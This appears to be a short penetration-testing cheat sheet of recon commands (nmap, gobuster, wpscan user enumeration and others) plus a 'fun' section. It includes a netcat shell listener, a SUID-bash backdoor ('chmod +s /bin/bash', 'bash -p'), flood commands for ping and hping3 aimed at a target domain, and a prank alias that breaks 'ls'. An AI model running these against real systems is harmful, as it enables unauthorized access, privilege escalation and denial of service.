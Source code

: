 # Hacking Stuff

This document outlines various commands for reconnaissance and fun hacking-related activities. Use responsibly and only on systems you have permission to test.

---

## Recon Stuff

Commands for gathering information about a target domain or system.

```bash
rustscan -a domain.com
urlfinder -d domain.com -o domain.txt
nikto -h domain.com
amass enum -d domain.com
curl -i domain.com
whois domain.com
whatweb domain.com
sudo nmap -sS -sV -T4 domain.com
gobuster dir -u domain.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u domain.com -w /usr/share/seclists/sublist3r -d domain.com
tshark -Y 'http.request.method == "GET"' -i eth0
wpscan --url domain.com --enumerate u
wpscan --url domain.com --enumerate vp,vt --plugins-detection
nc -lvnp 1234
sudo chmod +s /bin/bash
bash

## Fun Stuff

```bash
ping -s 1300 -f domain.com
hping3 -S -V --flood domain.com
hping3 --traceroute -V -1 domain.com
cat /dev/urandom
alias ls="cat /dev/urandom"
bash -p
